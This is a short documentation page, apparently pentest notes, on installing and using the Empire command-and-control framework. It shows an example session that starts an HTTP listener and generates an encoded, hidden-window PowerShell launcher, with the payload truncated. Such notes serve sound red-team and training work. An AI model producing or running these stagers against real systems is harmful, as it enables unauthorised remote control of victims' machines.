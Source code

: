 ```yaml
---
### The title for the content.
title : "Empire"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "empire"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Empire description."
### The datetime assigned to this page.
date : 2020-03-11T10:40:17+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "empire"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [" "]
---
```


## Empire

### Install

#### System

```bash
git clone https://github.com/BC-SECURITY/Empire
cd Empire
sudo ./setup/install.sh
```

#### Docker

```bash
docker pull bcsecurity/empire:{version}
docker run -it bcsecurity/empire:{version}

# with persistent storage
docker pull bcsecurity/empire:{version}
docker create -v /empire --name data bcsecurity/empire:{version}
docker run -it --volumes-from data bcsecurity/empire:{version}

# if you prefer to be dropped into bash instead of directly into empire
docker run -it --volumes-from data bcsecurity/empire:{version} /bin/bash
```

### Examples

#### Reset DB

```bash
/empire/setup/reset.sh
```

#### setup basic listener and gen launcher

```bash
(Empire) > listeners
[!] No listeners currently active
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://10.10.14.24:80
(Empire: listeners/http) > set BindIP 10.10.14.24
(Empire: listeners/http) > set Port 80
(Empire: listeners/http) > execute
[*] Starting listener 'http'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > launcher
[!] Please enter 'launcher <language> <listenerName>'
(Empire: listeners) > launcher powershell http
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAF.....kAEsAKQApAHwASQBFAFgA
```

### Also see

* [Github project](https://github.com/BC-SECURITY/Empire)
* [Quickstart](https://github.com/BC-SECURITY/Empire/wiki/Quickstart)
